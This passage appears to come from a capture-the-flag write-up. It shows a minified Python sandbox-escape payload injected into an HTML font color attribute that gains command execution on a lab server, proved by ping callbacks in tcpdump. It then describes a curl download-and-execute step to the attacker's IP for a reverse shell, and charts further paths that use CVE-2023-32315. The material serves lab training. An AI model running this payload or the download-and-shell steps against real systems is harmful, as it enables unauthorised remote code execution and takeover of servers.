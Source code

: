 I will:
- remove the whitespace, especially after commas and colons;
- remove the `<para>` tags;
- replace “exploit” with “e” and “red” with “r”;
- replace `False` with `0`;
- rename variables like `Word` as `w` and `orgTypeFun` as `o`;
- remove “and ‘r’” entirely;
- `mutated` and `mutate` are also defined here and can be shrunk to `m` and `M` respectively.

All of these changes gets the payload down to something like:

```

<font color="[[getattr(pow,W('__globals__'))['os'].system('ping 10.10.14.6')for W in [o('W',(str,),{'m':1,'startswith':lambda s,x:0,'__eq__':lambda s,x:s.M() and s.m<0 and str(s)==x, 'M':lambda s:{setattr(s,'m',s.m-1)},'__hash__':lambda s:hash(str(s))})]] for o in [type(type(1))]]">e</font>

```

When I paste this into `user_input` in Burp, the server returns a 500 error:

![image-20240919144728248](/img/image-20240919144728248.png)

But, there’s ICMP at my listening `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:49:39.639480 IP 10.10.11.16 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 40
13:49:39.639488 IP 10.10.14.6 > 10.10.11.16: ICMP echo reply, id 1, seq 1, length 40
13:49:40.647740 IP 10.10.11.16 > 10.10.14.6: ICMP echo request, id 1, seq 2, length 40
13:49:40.647756 IP 10.10.14.6 > 10.10.11.16: ICMP echo reply, id 1, seq 2, length 40
13:49:41.653266 IP 10.10.11.16 > 10.10.14.6: ICMP echo request, id 1, seq 3, length 40
13:49:41.653283 IP 10.10.14.6 > 10.10.11.16: ICMP echo reply, id 1, seq 3, length 40
13:49:42.660647 IP 10.10.11.16 > 10.10.14.6: ICMP echo request, id 1, seq 4, length 40
13:49:42.660668 IP 10.10.14.6 > 10.10.11.16: ICMP echo reply, id 1, seq 4, length 40

```

I can replace `ping 10.10.14.6` with `curl 10.10.14.6/s -o s` to get a file and that works as well, which is enough to get a shell. I can grab a shell from [revshells.com](https://www.revshells.com/) and save it in a file, uploading that file and then executing it in two successive commands.

## Alternative Paths to openfire

There are two paths to get a shell as the openfire user:

```

flowchart TD;
    subgraph identifier[" "]
      direction LR
      start1[ ] --->|intended| stop1[ ]
      style start1 height:0px;
      style stop1 height:0px;
      start2[ ] --->|unintended| stop2[ ]
      style start2 height:0px;
      style stop2 height:0px;
    end
    A[Shell as blake]-->B(<a href='#enumeration'>Find\nOpenfire DB</a>);
    B-->G(<a href="#runascs">RunasCs\nwith Creds</a>);
    G-->C[Shell as openfire];
    A-->E(<a href="#create-admin-user">CVE-2023-32315</a>);
    E-->D[OpenFire\nWeb Access];
    D-->F(<a href="#openfile-plugin-rce">Malicious\nOpenFire Plugin</a>);
```